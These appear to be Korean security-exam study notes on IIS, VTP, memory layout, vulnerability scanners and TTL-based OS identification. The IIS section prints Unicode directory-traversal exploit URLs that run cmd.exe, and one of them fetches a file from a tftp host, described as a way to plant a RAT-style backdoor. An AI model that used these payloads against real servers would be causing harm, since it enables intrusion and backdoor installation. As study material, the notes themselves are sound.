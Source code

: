 - 인터넷 정보 서비스(Internet Information Services, IIS)는 마이크로소프트 윈도우에서 사용 가능한 웹 서버 소프트웨어이다. 흔히 IIS라는 약칭으로 많이 불린다. 윈도우에서는 NT 커널을 사용하는 모든 버전에서 무료로 제공한다. 

- IIS UNICODE BUG
: 타겟호스트에 스크립트 폴더를 이용하여 유니코드 문자열을 통해 cmd.exe이 사용 가능하다.

> http://target_host/scripts/..%255c..%255cwinnt/system32/cmd.exe?/c+dir

아래는 tftp(udp 69번)프로토콜을 통해 지금이라면 RAT와 같은 백도어를 업로드 하는 명령어다.

> http://target_host/scripts/..%255c..%255cwinnt/system32/cmd.exe?/c+ tftp+-i+tftp_host+get+"upload_file


![image](https://user-images.githubusercontent.com/62640332/136793804-0e1359da-5797-4e1e-8e96-4709dcc5dc27.png)

![image](https://user-images.githubusercontent.com/62640332/136793895-76530d5a-ccc9-4417-b500-92e931bb0de7.png)

![image](https://user-images.githubusercontent.com/62640332/136793960-1f947307-ad12-40f8-bb8d-4a16874035cc.png)


<br>

- VTP(VLAN Trunking Protocol)   
: 복수 개의 스위치 간에 VLAN의 설정 정보를 교환해 주는 프로토콜, VLAN 설정의 편의성을 향상된다.

<br>

- 메모리 구조
  > - stack: 지역변수, 매개변수
  > - heap: 동적할당
  > - code: 프로그램 코드
  > - data: 전역변수, 정적변수
<br>

- 리눅스 점검 도구
    > - SAINT: 유닉스 시스템에서 작동하는 네트워크 취약점 분석도구, HTML 형식의 보고서 기능, 원격 취약점 점검 기능    
    > - SARA: SATAN을 기반 취약점 분석 도구, 유닉스 시스템에서 작동, 네트워크 기반 장비에 대해 취약점 분석 가능, HTML 형식의 보고서 가능
    > - COPS: 유닉스 시스템에서 동작하는 시스템 취약성 점검 도구, 시스템 내부의 취약점 검사 기능
    > - Nessus: 유닉스 시스템 동작하는 네트워크 취약점 점검 도구, 클라이언트/서버 구조
    > - NMAP: 대표적인 포트 스캐닝 도구, Tcp connection으로 스캔뿐만 아니라, 다양한 스텔스 모드로 스캔이 가능, 하나의 호스트 뿐만 아니라 거대 네트워크의 고속 스캔도 가능


- TTL 값을 통한 OS 식별

|TTL|OS|
|---------|---------|
|31|Firmware|
|64|Linux|
|128|Windows|
|247|Solaris 2.X|
|248|Unix 4.0|
|255|Cisco Router|
